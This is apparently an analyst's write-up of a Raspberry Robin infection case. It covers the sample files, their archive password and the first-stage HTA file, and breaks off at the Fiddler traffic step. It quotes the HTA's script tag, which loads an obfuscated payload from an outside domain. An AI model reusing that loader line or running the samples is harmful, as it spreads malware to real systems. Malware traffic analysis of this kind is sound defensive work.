 ## Date: November 14, 2024  
**Source:** [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/2024/11/14/index.html)

**Theme:** Windows-based malware infection chain using a malicious HTA file that retrieves and executes a DLL payload from a WebDAV share, followed by TOR-based C2 traffic.

---

###  Step 1: Download and Extract Investigation Files

Downloaded the following from the case study:

- `2024-11-14-Raspberry-Robin-infection-initial-traffic.saz.zip`
- `2024-11-14-Raspberry-Robin-infection-traffic.pcap.zip`
- `2024-11-14-Raspberry-Robin-malware-samples.zip`

Unzipped using password: `infected_20241114`

---

###  Artifacts:

- `.pcap` for full network capture
- `.saz` archive from Fiddler HTTP debugger
- Malware sample ZIP includes:
  - `bootstrap.hta` (malicious script)
  - Retrieved payload: `v.dll`

### Step 2: Analyze Initial Stage – HTA File Launch

**Artifact:** `bootstrap.zip`  
**Contained file:** `bootstrap.hta`

This HTA file contains a script referencing an external domain:

<img width="1702" height="731" alt="image" src="https://github.com/user-attachments/assets/0707552d-d130-42e6-b67c-8ba90b7ef4c2" />

```html
<script src="https://735dba63.bright-witted.skin/2fh0gj35ptlit"></script>
```

**Purpose:** To dynamically pull a large obfuscated payload that includes further malware logic.

**Screenshot: Malicious HTA Trigger**  
Clicking this file results in a **5.5 MB obfuscated script** download.

Traffic shows numerous **HTTPS GET requests** and a large **payload in response**.

---

### Step 3: Monitor Traffic via Fiddler (SAZ)

**Opened:** `2024-11-14-Raspberry-Robin-infection-initial-traffic.saz` in Fiddler
download fiddler for free from **Source:** [fiddler](https://www.telerik.com/download/fiddler/fiddler4)

